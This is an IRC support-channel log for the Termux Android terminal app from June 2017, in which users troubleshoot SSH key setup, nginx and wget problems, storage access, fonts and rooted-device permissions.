2017-06-20 13:20:37	enedil	can*

2017-06-20 13:21:01	enedil	wait, I'll show you how

2017-06-20 13:25:13	enedil	m4sk1n: https://postimg.org/image/os9m3b5qn

2017-06-20 13:39:07	enedil	Why is there even cmus package if there's no support for playing music from it?

2017-06-20 13:39:35	enedil	or is there?

2017-06-20 18:06:26	sdrausty	rods-tab3: Thank you.

2017-06-20 18:22:56	rods-tab3	for what ??  is there a working url ?

2017-06-20 18:51:45	rods-tab3	are you at South Pole ?  https://mobile.twitter.com/SDRausty

2017-06-20 20:00:42	anonymEcho	can i ask u something?

2017-06-20 20:01:00	anonymEcho	hello?

2017-06-20 20:03:25	rods-tab3	bbl - din time

2017-06-20 20:22:31	u0_a152	can i ask u something?

2017-06-20 20:54:32	rods-tab3	yes,yes

2017-06-20 21:12:19	gitter	(mklein994) Regenaxer: try locking your phone. Does it work then? It works for me (Galaxy S5, running LineageOS 7.1.2).

2017-06-20 22:06:40	gitter	(TheCryptek) I ask because I'm trying to ssh into a server that uses key verification instead of password verification

2017-06-20 22:23:20	gitter	(mklein994) I don't

2017-06-21 00:46:59	Regenaxer	gitter: Also in locked state the LED does not light

2017-06-21 00:55:15	Regenaxer	It is a Nexus 9

2017-06-21 01:41:56	Maletil	Hi there.

2017-06-21 02:26:48	frumpylava	My phone seems to disable 2 of my 6 cores when the screen is off. Is there any way to enable them without turning the screen on? I am currently treating truning the screen on as a sort of "turbo mode". It's sort of annoying only having 4 cores available when connected via ssh.

2017-06-21 02:33:12	gitter	(prinxy) Through my keyboard..... I disabled vibration from my keyboard

2017-06-21 02:34:11	gitter	(prinxy) I use termux on my phone, all I did was to go to keypad setting and disabled it

2017-06-21 02:45:37	Regenaxer	Since earliest times I get "Aborted" for calls like 'fgrep -i foobar Mail/*'

2017-06-21 02:46:02	Regenaxer	iirc fornwall once fixed it, but since quite some time I have it again

2017-06-21 02:48:21	Regenaxer	Anybody else?

2017-06-21 02:50:54	Regenaxer	Seems that any call to  fgrep -i  (also on a single short file) aborts

2017-06-21 02:52:39	Regenaxer	Sometimes (usually after some longer time of runnig) Termux crashes when selecting text and "Copy"

2017-06-21 02:53:34	Regenaxer	The garbage issue in tmux is also still life and well ;)

2017-06-21 02:54:26	Regenaxer	(these are no complaints! Just bug reports :)

2017-06-21 03:01:21	Regenaxer	Printing some "non-printing" characters in Termux completely hang thes session. I don't know exactly which, can reproduce in PicoLisp with : (for I (range 33 255) (prin (char I)))

2017-06-21 05:20:59	fornwall	Regenaxer: ok, I can reproduce the grep issue, https://github.com/termux/termux-packages/issues/1099, I'll look into it later today!

2017-06-21 05:21:20	Regenaxer	thanks fornwall!

2017-06-21 05:21:47	Regenaxer	Strange that I'm the only one ... nobody uses fgrep with -i ?

2017-06-21 05:28:15	fornwall	about the crash when copying text after running for a while, could you start up termux and run 'logcat' afterwards, and see if you find a java stack trace there, and if so put it up somewhere?

2017-06-21 05:37:09	Regenaxer	OK, yes

2017-06-21 07:52:17	gitter	(de-facto) Mattew Klein: phones -- what can I say? I want to set up the ssh server, as described in the docs, but I don't know how to. I have hit on one method, butit does not seem secure, though it works. Placing Keys in /.ssh/authorized_keys is fine, but I have to put id_rsa in ~/ in order for achieve success. What is the solution? Sorry about the last word!

2017-06-21 09:30:15	gitter	(TheCryptek) After running sshd I can't connect to my ssh server from a PC can anyone help me out to make sure I'm not screwing up [command I used is sshd -p 8022]

2017-06-21 09:40:06	frumpylava	@TheCryptek what error message do you get?

2017-06-21 09:41:21	gitter	(TheCryptek) frumpylava: I get this └──╼ $ssh test@192.168.0.19 -p 8022

2017-06-21 09:41:21	gitter	(TheCryptek) ssh: connect to host 192.168.0.19 port 8022: No route to host

2017-06-21 09:41:21	gitter	(TheCryptek)

2017-06-21 09:42:12	frumpylava	does it work on termux? Ie. ssh test@localhost -p 8022

2017-06-21 09:42:29	gitter	(TheCryptek) frumpylava Yes

2017-06-21 09:43:28	gitter	(TheCryptek) I mean I get permission denied because of my public key, but it connects

2017-06-21 09:43:59	frumpylava	Are you sure that is your ip? Does ping work?

2017-06-21 09:44:19	gitter	(TheCryptek) Ping doesn't work but ifconfig claims my ip is 192.168.0.19

2017-06-21 09:44:47	gitter	(TheCryptek) and even in my phone settings at about phone, it says my ip is 192.168.0.19

2017-06-21 09:44:51	gitter	(TheCryptek) frumpylava

2017-06-21 09:46:48	frumpylava	So it's not actually sshd. You just can't connect to your phone in general. Seems like a routing issue. Are you at home or in a corporate or school network?

2017-06-21 09:47:16	gitter	(TheCryptek) I'm at home.

2017-06-21 09:47:36	gitter	(TheCryptek) I can connect my phone to an ssh server on my laptop though.

2017-06-21 09:50:21	frumpylava	Maybe wifi devices are isolated on your router.

2017-06-21 09:50:52	gitter	(TheCryptek) frumpylava: Then why can my phone connect and use an ssh server running on my laptop which is connected via wifi?

2017-06-21 09:52:36	frumpylava	hmm... that's weird then.

2017-06-21 09:53:05	gitter	(TheCryptek) frumpylava: That's what I thought, so I came here to ask for help ._. Perhaps port 8022 isn't forwarded for my phone [software wise]

2017-06-21 09:53:21	frumpylava	@TheCryptek can you connect via USB?

2017-06-21 09:53:24	frumpylava	https://glow.li/technology/2016/09/20/access-termux-via-usb.html

2017-06-21 09:54:35	gitter	(TheCryptek) frumpylava: Give me just a sec to grab my cord

2017-06-21 09:56:40	gitter	(TheCryptek) frumpylava: It worked, now I just have to figure out how to authorize my key from my laptop ._.

2017-06-21 09:58:24	gitter	(TheCryptek) How do I do that owo

2017-06-21 10:01:11	frumpylava	@TheCryptek you can copy it to your sdcard with your laptop and then in termux grab it from there and add it tho ~/.ssh/authorized_keys.

2017-06-21 10:12:15	gitter	(TheCryptek) I got it :D Thank you frumpylava <3

2017-06-21 10:21:37	gitter	(TheCryptek) After running httpd, where are the public html files located?

2017-06-21 10:24:10	frumpylava	@TheCryptek if you didn't specify anything, your current working dir.

2017-06-21 10:24:44	frumpylava	also, termux has much better webservers now. Apache2, lighttpd and nginx are all available.

2017-06-21 10:25:49	frumpylava	nginx is probably the easiest to setup. It comes with pretty good defaults.

2017-06-21 10:27:07	gitter	(TheCryptek) frumpylava: I have nginx, couldn't find its public html

2017-06-21 10:28:21	gitter	(TheCryptek) and I can't get nginx to work either can't seem to bind port 8080

2017-06-21 10:28:45	frumpylava	Default seems to be /data/data/com.termux/files/usr/share/nginx/html

2017-06-21 10:29:00	frumpylava	also you probably had httpd running when trying to start nginx

2017-06-21 10:29:07	frumpylava	kill that first.

2017-06-21 10:29:47	gitter	(TheCryptek) frumpylava: I did it still didn't work

2017-06-21 10:31:26	frumpylava	@TheCryptek run "netstat -tulpn" and figure out what is running on 8080

2017-06-21 10:31:58	gitter	(TheCryptek) frumpylava: Claims nothing

2017-06-21 10:33:43	gitter	(TheCryptek) frumpylava: this is my error log https://pastebin.com/xiX8aYTN

2017-06-21 10:34:16	frumpylava	what. Why is your nginx triying to bind to port 8022?

2017-06-21 10:34:26	frumpylava	8022 is the sshd port

2017-06-21 10:34:36	gitter	(TheCryptek) I forgot

2017-06-21 10:34:44	gitter	(TheCryptek) that I may or may not have messed with the config

2017-06-21 10:35:08	gitter	(TheCryptek) Where is the nginx config xD

2017-06-21 10:35:23	frumpylava	@TheCryptek $PREFIX/etc/nginx/nginx.conf

2017-06-21 10:35:53	gitter	(TheCryptek) frumpylava: You could just ~/../etc/nginx

2017-06-21 10:35:54	gitter	(TheCryptek) lol

2017-06-21 10:37:12	gitter	(TheCryptek) Whats the default port for ftp 8021?

2017-06-21 10:37:51	frumpylava	yeah

2017-06-21 10:38:04	frumpylava	but nginx needs 8080

2017-06-21 10:38:11	gitter	(TheCryptek) Alright, I've been trying to get nginx running for three days now

2017-06-21 10:39:01	frumpylava	but it runs out of the box :P

2017-06-21 10:39:07	gitter	(TheCryptek) and ssh running

2017-06-21 10:39:07	gitter	(TheCryptek) nginx is now running on 8080 after putting the config back

2017-06-21 10:39:11	gitter	(TheCryptek) It wasn't

2017-06-21 10:39:27	gitter	(TheCryptek) I kept getting that error from the link with nginx when I first ran it and ssh I couldnt c onnect with my PC

2017-06-21 10:39:28	gitter	(TheCryptek) xD

2017-06-21 10:39:34	gitter	(TheCryptek) I mean other then that its all running fine :D

2017-06-21 10:39:57	gitter	(TheCryptek) I already rated it 5 stars ont he play store. I plan on buying all the add-ons [including the ones I won't be using] to support the dev :D

2017-06-21 11:16:30	gitter	(vishalbiswas) frumpylava: on a rooted device you switch the cpu governer to performance

2017-06-21 11:18:08	gitter	(vishalbiswas) Also, httpd = apache2

2017-06-21 14:24:18	frumpylava	@vishalbiswas not necessarily. Busybox also has a `httpd`. It's probable that he meant that one.

2017-06-21 14:24:37	frumpylava	also sucks about needing root to unlock my cores.

2017-06-21 15:08:29	u0_a109	hey

2017-06-21 15:10:08	u0_a109	any irssi user? using /nick made my phone reboot the last 2 times i tried

2017-06-21 15:10:10	rod-yolo	ho

2017-06-21 15:25:13	frumpylava	what is it with irc clients and rebooting peoples phones. weechat frequently reboots my phone as well.

2017-06-21 16:09:45	rods-tab3	maybe your phone is rejecting profanity

2017-06-21 16:10:31	rods-tab3	iirc termux has an app named ''profanity''  ???

2017-06-21 20:05:13	gitter	(enedil) @n1had5_twitter use github issues

2017-06-21 22:59:44	dahora	hey guys! love the app. it has been life-changing to access a full-fledged terminal on the go.  One thing: what happened to wget in the recent release? there's a version of the binary that doesnt live in ~/usr/bin but persists and overwrites the version i download from the pkg server. this persistent version only has two (!!!) options.  Since im a thirworlder bandwidth is very expensive. i use wget -k to grab websites for offline readi

2017-06-21 22:59:46	dahora	…range new bug(?) or change has ruined this ESSENTIAL feature of my workflow. can someone shed some light on what's going on? thanks!!

2017-06-21 23:00:21	dahora	going offline soon. my email: aeromax.way@gmail.com

2017-06-21 23:01:09	dahora	…range new bug(?) or change has ruined this ESSENTIAL feature of my workflow. can someone shed some light on what's going on? thanks!!

2017-06-21 23:03:51	dahora	one more detail: upon running the cmd im getting a version echo from busybox

2017-06-22 00:25:31	gitter	(vishalbiswas) dahora: install wget to get the full wget, busybox wget is the default one.

2017-06-22 01:01:36	kr1shna	termux-setup-storage does not created termux directory on sdcard, is this normal

2017-06-22 01:42:53	rods-tab3	on mine its:  /storage/08C5-1EF7/Android/data/com.termux/files

2017-06-22 01:46:09	rods-tab3	aka ~/storage/external

2017-06-22 04:04:29	u0_a152	hello?

2017-06-22 04:05:23	anonymEcho	hi ?

2017-06-22 04:05:28	anonymEcho	hey bro?

2017-06-22 04:06:53	anonymEcho	c'mon anybody online?

2017-06-22 04:36:21	specialkay	hey

2017-06-22 05:57:47	frumpylava	ITT: People who think 100 of people are constantly watching this channel.

2017-06-22 05:58:01	frumpylava	Ask your questions and wait. Don't ask to ask.

2017-06-22 07:24:38	specialkay	is it possible to launch a specific app from termux? like piping youtube-dl to mpv-android?

2017-06-22 07:29:22	frumpylava	specialkay: Well, you can do xdg-open to open a file

2017-06-22 07:40:07	specialkay	yes but it's a bit frustrating, for example when launching a .mp4 with xdg-open mpv-android is not on the list

2017-06-22 07:40:31	specialkay	for some reasons

2017-06-22 07:46:13	Transfusion	works for me: https://i.imgur.com/eSxDMVT.png , maybe your version of mpv-android didn't register the correct intent-filter to handle implicit intents?

2017-06-22 09:13:52	Crukx	Hello

2017-06-22 09:14:09	Crukx	Anyone install ionic through termux?

2017-06-22 09:14:30	Crukx	I installed node and it worked fine

2017-06-22 09:14:39	Crukx	Even express and nedb

2017-06-22 09:14:57	Crukx	But ionic or angular don't get installed

2017-06-22 09:30:56	Crukx	Anyone?

2017-06-23 01:21:13	Regenaxer	fornwall: A logcat after such a crash after "Copy" is at https://software-lab.de/logcat20jun17 - Does it give anything useful?

2017-06-23 05:01:55	frumpylava	Does anybody know of a good spam filter that works with getmail on termux?

2017-06-23 09:14:32	m4sk1n	hi, I know that I would need to compile everything by my own, but can I change Linux environment in Termux to arch-based one?

2017-06-23 09:21:43	AppAraat	hello, I am new to Termux and was wondering if it was possible to have root privs in Termux if phone is rooted too.

2017-06-23 10:07:35	gitter	(enedil) AppAraat: yes it is

2017-06-23 10:07:38	gitter	(enedil) just type `su`

2017-06-23 10:09:45	BrainDamage	m4sk1n: you can chroot ( proot actually ) to an arch environment, with limited functionality

2017-06-23 10:13:16	AppAraat	gitter: (enedil) thanks!

2017-06-23 11:23:03	specialkay	hey

2017-06-23 11:28:56	specialkay	is it possible to display a video with mpv (the one in the repos), and displaying the output on the screen? not with libcaca, i mean a regular video output

2017-06-23 11:28:59	specialkay	?

2017-06-23 11:47:50	gitter	(pvagner) I am trying to build speech-dispatcher for termux. I have just found out it needs sys/sem.h . I don't know more details about this but it appears as this is not possible to overcome easily. am I right?

2017-06-23 13:58:51	gitter	(pvagner) Also how about #include <pthread.h> ?

2017-06-23 14:13:22	anonymo	hi

2017-06-23 14:13:56	anonymo	when I try to run command pkg install openssh

2017-06-23 14:14:03	anonymo	it returns an error

2017-06-23 14:14:11	anonymo	can anyone help plz

2017-06-23 14:14:40	gitter	(enedil) anonymo: show the exact error

2017-06-23 14:14:43	gitter	(enedil) plz

2017-06-23 14:15:11	anonymo	http://termux.net stable/main arm Packages

2017-06-23 14:15:11	anonymo	  Hash Sum mismatch

2017-06-23 14:15:11	anonymo	Fetched 54.3 kB in 1s (28.0 kB/s)

2017-06-23 14:15:11	anonymo	Reading package lists... Done

2017-06-23 14:15:11	anonymo	E: Failed to fetch http://termux.net/dists/stable/main/binary-arm/Packages.xz  Hash Sum mismatch

2017-06-23 14:15:11	anonymo	E: Some index files failed to download. They have been ignored, or old ones used instead.

2017-06-23 14:15:47	gitter	(enedil) @pvagner there is `<phthread.h>`

2017-06-23 14:15:57	gitter	(pvagner) @anonymo do you have network connectivity on the device?

2017-06-23 14:16:18	gitter	(enedil) and `asm/sembuf.h`, (if you meant this)

2017-06-23 14:16:41	anonymo	yes i have network connection..

2017-06-23 14:16:49	anonymo	but can be a little slow..

2017-06-23 14:16:55	anonymo	not sure abt the speed

2017-06-23 14:17:41	gitter	(pvagner) @and `asm/sembuf.h`, (if you meant this) yes I have found out NDK has pthread.h . however It appears not to be included with some reason...

2017-06-23 14:18:41	gitter	(pvagner) @and `asm/sembuf.h`, (if you meant this) as for the sys/sem.h I have just tried to reove this, speech-dispatcher can also run on solaris and it's not available there either, so perhaps I'll find a way...

2017-06-23 14:18:47	gitter	(enedil) Hmm, I just ran `find $HOME/../usr -name "*thread*.h"` on my Termux terminal. Are talking about compiling on device, or cross-compiling?

2017-06-23 14:19:24	gitter	(pvagner) @Hmm, I just ran `find $HOME/../usr -name "*thread*.h"` on my Termux terminal. Are talking about compiling on device, or cross-compiling? I'm crosscompiling

2017-06-23 14:19:41	anonymo	sure

2017-06-23 14:20:00	gitter	(enedil) @pvagner  Then I probably won't help :c

2017-06-23 14:25:38	anonymo	plz find me a solution if you can

2017-06-23 14:25:56	anonymo	its really very urgent for me to connect to my machine

2017-06-23 14:26:06	anonymo	will be very grateful

2017-06-23 20:41:02	anonymo	there is an issue in the termux app..

2017-06-23 20:41:23	anonymo	it is not able to install any package

2017-06-23 21:43:06	gitter	(vishalbiswas) anonymo: its a server error

2017-06-23 21:43:35	gitter	(vishalbiswas) @fornwall You need to purge cloudflare cache once more

2017-06-23 22:30:08	gitter	(vishalbiswas) @fornwall was `TERMUX_NDK_REVISION` incremented with the last ndk update?

2017-06-23 22:48:44	gitter	(vishalbiswas) can somebody explain to me what this does http://hg.openjdk.java.net/mobile/dev/hotspot/file/a81769cc0015/src/os_cpu/linux_aarch64/vm/threadLS_linux_aarch64.s

2017-06-24 09:15:34	kr1shna	there is no termux directory on my sdcard, i have installed tasker, is there any guide about how to configure and ue

2017-06-24 09:15:44	kr1shna	..use

2017-06-24 10:13:28	sdrausty	kr1shna: search `termux setup storage site:github.com`

2017-06-24 10:47:35	kr1shna	termux setup storage

2017-06-24 10:58:14	gitter	(vishalbiswas) @mklein994 what do you mean?

2017-06-24 11:00:32	gitter	(mklein994) Oh wait, nevermind. 😳 I just realized that it's already *at* 1.18.0. Thanks for the hard work!

2017-06-24 11:01:34	gitter	(mklein994) @mklein994 doesn't know how he missed that…

2017-06-24 11:02:25	gitter	(vishalbiswas) @mklein994 probably because it was updated within couple of hours of release

2017-06-24 11:07:17	gitter	(mklein994) (I have your fork added as a remote)

2017-06-24 11:07:26	gitter	(vishalbiswas) @mklein994 does installing rust via rustup works?

2017-06-24 11:08:07	gitter	(vishalbiswas) If it does, there's no need for the pull request then

2017-06-24 11:08:43	gitter	(mklein994) I haven't tried that yet, but that would be neat. I have a feeling that it won't though, because of `/system/bin/linker`.

2017-06-24 11:08:47	gitter	(mklein994) Right?

2017-06-24 11:09:33	gitter	(vishalbiswas) @mklein994 rustup has added android binaries support

2017-06-24 11:34:23	specialkay	hey

2017-06-24 11:58:03	rods-tab3	https://termux.com/storage.html        /storage/08C5-1EF7/Android/data/com.termux/files

2017-06-24 12:01:53	specialkay	any tips for a short version of 'ls -l' on small screens?

2017-06-24 12:02:16	specialkay	you can make the font smaller ofc T_T

2017-06-24 12:02:48	specialkay	something like ls -g | cut -d" " -f5- | column etc

2017-06-24 12:03:15	specialkay	but it doesnt look good, identation are ghettoish and not so readable

2017-06-24 12:04:17	gitter	(enedil) `ls -gG` might help a bit

2017-06-24 12:04:26	specialkay	G is not working on termux

2017-06-24 12:04:52	gitter	(enedil) then install GNU ls

2017-06-24 12:05:10	specialkay	how do you do it?

2017-06-24 12:05:29	gitter	(enedil) hmm, search for `coreutils`

2017-06-24 12:06:35	specialkay	thanks installing

2017-06-24 12:06:45	specialkay	will it "overwrite" the previous ls?

2017-06-24 12:08:23	gitter	(enedil) Rather shadow

2017-06-24 12:08:41	gitter	(enedil) previous ls will be in different directory I guess

2017-06-24 12:09:30	specialkay	wooo it work, G is back

2017-06-24 12:09:47	specialkay	thanks! will investigate if there are more options to shorten the output :D

2017-06-24 12:10:10	enedil	specialkay: it's funny that people come from GNU/Linux to some other Unix

2017-06-24 12:10:24	enedil	Ant they pretend they know how to use command line xD

2017-06-24 12:11:04	enedil	I've been using BSD tools (inside OS X) for about a year so such differences no longer make me anxious

2017-06-24 12:14:56	specialkay	yeah

2017-06-24 12:37:49	rods-tab3	thats the beauty of *nix; each 669 versions has different options so you can pick and choose

2017-06-24 12:40:00	rods-tab3	and you can be sure that your version is incompatible with everyone elses

2017-06-24 12:59:02	rods-tab3	Rob Pike said it best  http://herpolhode.com/rob/ugly.pdf

2017-06-24 14:21:23	anonymo	can anyone plz tell how to login to my server by using a public key in termux

2017-06-24 14:22:44	anonymo	@gitter

2017-06-24 14:24:13	anonymo	~gitter

2017-06-24 14:29:49	shiroyasha	anonymo: Generate a key pair locally, copy the content of `$HOME/.ssh/id_rsa.pub`, login to your server, and paste to the end of `$HOME/.ssh/authorized_keys`.

2017-06-24 14:31:09	gitter	(pvagner) You either have to transfer your private key to the ~/.ssh folder within termux. Or you have to generate new key pair on termux and transfer the public key to server you wish to login to. The key has to be added into ~/.ssh/authorized_keys file.

2017-06-24 14:34:42	anonymo	kkz

2017-06-24 14:36:01	anonymo	and what if I have multiple files in .ssh folder

2017-06-24 14:36:15	anonymo	how shall I point to one file for a particular aerver

2017-06-24 14:40:26	shiroyasha	The `$HOME/.ssh/config` file allows you to set specific keys per host.

2017-06-24 14:40:42	shiroyasha	`man ssh_config`

2017-06-24 14:43:12	anonymo	pwd

2017-06-24 14:52:09	anonymo	how exit for tail command

2017-06-24 14:54:27	rods-tab3	q

2017-06-24 14:56:47	anonymo	wechat??

2017-06-25 00:38:36	specialkay	sup

2017-06-25 00:41:20	specialkay	what's the fastest way to cleanly exit termux? something killing all the process, i edited my tmux config, and i noticed some settings i edited wasn't there when i relaunched it the next time, is it possible i lost data (written) when killing termux with the android app manager?

2017-06-25 00:42:47	rods-tab3	i just type:  exit

2017-06-25 00:43:29	specialkay	yes but this exit a single shell, if you user termux and have tons of stuff running you'll have to do it a lot

2017-06-25 00:43:43	specialkay	if you use*

2017-06-25 06:32:52	gitter	(noncom) is there a way to run scipy on termux?

2017-06-25 07:17:43	specialkay	still me

2017-06-25 07:17:45	specialkay	:]

2017-06-25 07:20:58	specialkay	is it possible to bind the windows key to ctrl+b? at the moment, it launch the google assistant

2017-06-25 07:21:37	specialkay	for tmux i mean :) woops

2017-06-25 07:21:46	specialkay	and also the terminal i guess

2017-06-25 12:26:43	gitter	(enedil) Hmm, I had no trouble using ctrl+b in tmux

2017-06-25 14:05:00	gitter	(fornwall) @vishalbiswas the`TERMUX_NDK_VERSION` was updated to 15. There is also the revision part in `TERMUX_STANDALONE_TOOLCHAIN+="-v17"`, but that only needs to be bumped when updating the toolchain setup within a single ndk version

2017-06-25 17:10:13	aleph-	Hey, trying to use espeak. What's our default audio device to use?

2017-06-25 18:18:33	BlackAngel2	hello

2017-06-25 18:18:40	BlackAngel2	Can I install the boinc program on the termux?

2017-06-25 18:20:50	BlackAngel2	and ekg polish instant messenger

2017-06-25 18:21:19	BlackAngel2	please help me :)

2017-06-25 18:21:42	m4sk1n	jaki ekg? :o

2017-06-25 19:19:34	BlackAngel2	ekg to komunikator gg na konsole

2017-06-26 02:50:47	frumpylava	Meh, I was hoping the --kill-on-exit option in proot would greatly simplify running proot as a service, but unfortunately proot doesn't relay or follow term signals, so it just sits there aftrer exiting.

2017-06-26 05:44:15	kutsan	Hey all, how can I execute a binary inside Termux bin folder from outside with /system/bin/sh shell? I was making a widget with KWGT Kustom and their shell function only allow to run /system/bin/sh. When I give full Termux node or python path, it says not found. Is it possible to achieve this without root access. Because python and node bins already chmod'ed.

2017-06-26 06:00:26	frumpylava	kustan. I don't know about KFGT, but I am almost certain that it would also allow shortcuts to be executed. With Termux:Widget Addon you can create shortcuts (in addition to the Widgets) of your files. So you could execute Termux binaries via the shell scripts instead (both in foreground and background possible)

2017-06-26 06:13:29	kutsan	frumpylava: Thanks for answer but this is not what I want. No doubt, KWGT have a option to run shortcuts but it's only for action events like when touching the widget. Basically, they have a function called `sh()` and it accepts an string argument, runs it with /system/bin/sh and returns the output, so I can use that string inside a text component like making clock. Problem is, sh('/data/data/com.termux/files/usr/bin/node

2017-06-26 06:13:29	kutsan	--version') returns not found. Is this because I am not root?

2017-06-26 06:14:05	kutsan	Problem is, sh('/data/data/com.termux/files/usr/bin/node') returns not found.

2017-06-26 06:27:29	live_the_dream	yes not root

2017-06-26 06:28:04	live_the_dream	each app in android uses a differejt username

2017-06-26 06:40:31	kutsan	live_the_dream: Thanks then!

2017-06-26 07:07:49	frumpylava	something is not alright with the latest mariadb version. I keep getting "Got an error reading communication packets"

2017-06-26 08:14:54	BrainDamage	is it possible to remove the exit confirmation after a terminal is closed?

2017-06-26 08:21:23	frumpylava	BrainDamage: No. https://github.com/termux/termux-app/issues/56

2017-06-26 08:31:53	frumpylava	grr it's php that segfaults when connecting to mariadb.

2017-06-26 08:33:16	BrainDamage	bleh, looks like it's being a bit overly protective imo

2017-06-26 08:33:38	BrainDamage	if one does want to shoot itself in the food, one should be able to remove the safety

2017-06-26 08:33:57	frumpylava	I agree.

2017-06-26 09:34:43	frumpylava	By the way. I will be conducting a Lecture/Workshop on Termux and how to use it as your main OS during this years ZeTeCo (zeteco.ch). It's a hacker camp in northern Switzerland.

2017-06-26 09:39:33	gitter	(vishalbiswas) #DATWEBSITE

2017-06-26 09:44:05	frumpylava	@cocodevienne aren't you from Austria? You should come too.

2017-06-26 09:44:37	BrainDamage	I think I should get my eyes checked for cancer

2017-06-26 09:46:46	specialkay	hey

2017-06-26 09:47:52	specialkay	any idea to what i should set #!/usr/bin/env python to?

2017-06-26 09:48:03	specialkay	or replace*

2017-06-26 09:48:07	frumpylava	BrainDamage: haha, I agree. The website is also pointless, since all info is in the wiki http://wiki.zeteco.ch/

2017-06-26 09:48:30	frumpylava	specialkay: You can run "termux-fix-shebang filename" to automatically fix any given shebang.

2017-06-26 09:48:45	specialkay	thanks! trying that

2017-06-26 09:50:10	specialkay	it works, it's beautiful °_°'

2017-06-26 10:22:41	AndrewMcSwain_	why is git push remote origin giving me an ssh error? termux used to be my primary dev environment

2017-06-26 10:23:22	AndrewMcSwain_	why can i suddenly not use ssh? is this a permissions error with android 6.0?

2017-06-26 10:24:06	AndrewMcSwain_	it says "cannot run ssh. no file or directory"

2017-06-26 10:25:02	specialkay	i'm running android 6 and ssh works

2017-06-26 10:26:36	specialkay	is the ssh session to your termux, or from your termux?

2017-06-26 10:32:42	AndrewMcSwain_	i am assuming from. i had configured my remote with git@github.com:.... I changed the syntax to https://github.com/user/repo and it worked.

2017-06-26 10:34:39	BrainDamage	can you ssh to another machine?

2017-06-26 11:46:02	frumpylava	@vishalbiswas Do you know why php mysqli might segfault when connecting to databases?

2017-06-26 20:54:23	gitter	(prinxy) Can I run html in termux...  Please?

2017-06-26 20:54:50	gitter	(prinxy) HTML file in termux?

2017-06-26 23:15:01	dunderproto	Hi all, I'm looking for a way to install some basic command line apps that are missing on stock android

2017-06-26 23:16:01	dunderproto	I'd like to have man for reading man pages offline, less, and that's probably it. Is termux right for me? I don't need anything too complicated (I don't want an entire distro on my phone).

2017-06-26 23:49:18	rods-tab3	termux has everything - basic install is about ~~ 38MB

2017-06-26 23:50:50	dunderproto	interesting, thanks

2017-06-26 23:59:54	rods-tab3	that maybe wrong -- my data/com.termux is 48MB of which 25MB is man files

2017-06-27 00:01:29	rods-tab3	the basic man install is 950kB -- but to get man pages for an app - you need to install the app

2017-06-27 00:47:54	dunderproto	rods-tab3: thanks. OK, maybe termux is right for me.

2017-06-27 00:48:22	dunderproto	I was considering either t-ui or termux

2017-06-27 00:49:16	rods-tab3	you need android => 5

2017-06-27 00:51:33	dunderproto	I'm running android 6.0.1

2017-06-27 01:21:56	poyntz	hi. Is there anyway to do root ops on /sdcard on a rooted phone?

2017-06-27 01:22:10	poyntz	...through termux

2017-06-27 01:23:43	poyntz	tried making a folder and symlinking in that directory using su and got nowhere

2017-06-27 02:11:12	frumpylava	qebn

2017-06-27 02:25:53	rods-tab3	how much space does /data/apps/com.termux  take up  ?

2017-06-27 05:40:56	gitter	(arpecop) I am wondering why termux got less permissions for modifying directories than adb for example

2017-06-27 05:41:42	gitter	(arpecop) also can I "pkill" processes ?

2017-06-27 06:32:19	phil42	u0_a84@localhost ~> which pkill

2017-06-27 06:32:34	phil42	data/data/com.termux/files/usr/bin/pkill

2017-06-27 06:54:00	dexofan23	hi

2017-06-27 06:55:06	dexofan23	exit

2017-06-27 11:50:51	rods-tab3	how much space does /data/apps/com.termux  use ?

2017-06-27 12:27:28	freeemint	Hello has anybody got Julia running on #termux

2017-06-28 05:59:49	gitter	(noncom) and looking at the https://github.com/its-pointless/gcc_termux repo

2017-06-28 06:00:34	gitter	(noncom) but I can't find any definite instructions on how to install this (although I've added the gpg key and the sources to the $PREFIX/etc/apt/sources.list file)

2017-06-28 06:00:44	gitter	(noncom) and also, how to install SciPy after that

2017-06-28 06:00:52	gitter	(noncom) is there an instruction on this somewhere?

2017-06-28 06:08:11	delt	Hello everyone, new user here :D very happy with this app!

2017-06-28 06:20:16	delt	just wondering, how can i copy stuff from /sdcard as the default termux user?

2017-06-28 06:20:38	delt	also, i made my very nice programming font, which i would like to use in termux. is that possible?

2017-06-28 06:25:49	grepper	delt: $HOME/.termux/font.ttf afaik

2017-06-28 06:25:58	delt	grepper: thanks

2017-06-28 06:26:23	delt	grepper: though i tried that, and it says permission denied even if i change user/perms on the file :/

2017-06-28 06:26:52	delt	same with a .bash_profile i tried to copy to ~/

2017-06-28 06:27:44	delt	even if i set permissions to 777, it wasn't able to read the files

2017-06-28 06:27:47	grepper	with the .bash_profile you could do "cat  /path/to/.bash_profile > ~/.bash_profile

2017-06-28 06:27:53	grepper	"

2017-06-28 06:28:08	delt	yeah, if the termux user was able to read it :/

2017-06-28 06:28:14	grepper	oh

2017-06-28 06:28:16	grepper	strange

2017-06-28 06:28:27	grepper	do you have root?

2017-06-28 06:28:29	delt	yeah

2017-06-28 06:28:47	grepper	you could do the same thing as root, after creating the empty file in termux

2017-06-28 06:28:50	delt	lineageos 14.1, samsung galaxy s3 (d2att)

2017-06-28 06:29:03	grepper	ah, my last phone

2017-06-28 06:29:10	delt	very nice machine =)

2017-06-28 06:29:18	grepper	aye

2017-06-28 06:29:45	delt	dates from 2012, and with lineage i can run android 7.1.2 on it, almost as smooth as the stock 4.x that came with it

2017-06-28 06:30:13	grepper	yeah, we were lucky with that phone, the devs kept on going and going

2017-06-28 06:30:54	grepper	I did run nougat for a little while before it died

2017-06-28 06:31:03	grepper	well, the mic died

2017-06-28 06:31:13	delt	lineage / cm?

2017-06-28 06:31:48	grepper	I think it might have been still cm at that point

2017-06-28 06:32:09	grepper	are you trying to copy these files from external sd ?

2017-06-28 06:32:26	delt	internal

2017-06-28 06:32:34	grepper	hm, stranger and stranger

2017-06-28 06:32:34	delt	the ttf

2017-06-28 06:32:45	delt	the .bash_profile from /

2017-06-28 06:32:58	grepper	though you could try the same trick with cat'ing with the ttf I guess

2017-06-28 06:33:43	grepper	does temporarily setting to permissive do anything?

2017-06-28 06:34:34	delt	permissive?

2017-06-28 06:35:36	delt	yess :D worked if i created an empty font.ttf and then cat my real one >> it :) :)

2017-06-28 06:36:27	grepper	cool

2017-06-28 06:38:28	delt	with setenforce 0 i'm able to read / and i can cd to /sdcard but can't read (ls) /sdcard

2017-06-28 06:50:26	grepper	delt: did you do termux-setup-storage ?

2017-06-28 06:50:53	delt	nope, what does that do?

2017-06-28 06:51:21	 *	delt tries

2017-06-28 06:52:00	delt	ah, requests access to storage :D

2017-06-28 06:52:34	delt	thanks, working perfectly now!

2017-06-28 07:00:09	grepper	yeah, should have thought of that first but only a few hours sleep last night :(

